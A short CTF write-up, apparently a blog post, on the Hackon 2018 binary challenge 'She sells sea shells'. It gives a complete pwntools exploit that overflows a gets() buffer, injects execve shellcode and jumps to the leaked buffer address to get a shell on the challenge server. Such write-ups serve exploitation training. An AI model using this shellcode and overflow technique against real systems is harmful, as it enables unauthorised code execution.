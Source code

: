 ```yaml
---
title: Hackon-2k18 BE
date: 2018-08-19 00:00:00 +0530
categories: [CTF]
tags: [Re,exploitation, ctf]
---
```


Most of the binary challenges from the CTF were easy, based of basic `BOF` and basic `ROP`.

She sells sea shells – 90 points

Analyzing the binary we find a gets function which is vulnerable. Going through checksec everything other than `RELRO (partial)` is disabled. Also the `ASLR` is turned on.

No worries the program itself prints the address of the buffer each time we run the program.

Nothing much to do inject some shell code and then make the return address point to the shellcode.

### Python code:

```python
from pwn import *
p=remote('139.59.30.165',8900)
shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
p.recvuntil(") ")
a=int(p.recvline(),16)
d=p64(a)
l=len(shellcode)
second=shellcode+"A"*(72-l)+d
p.sendline(second)
p.interactive()
```

That is it. Use cat to print the flag.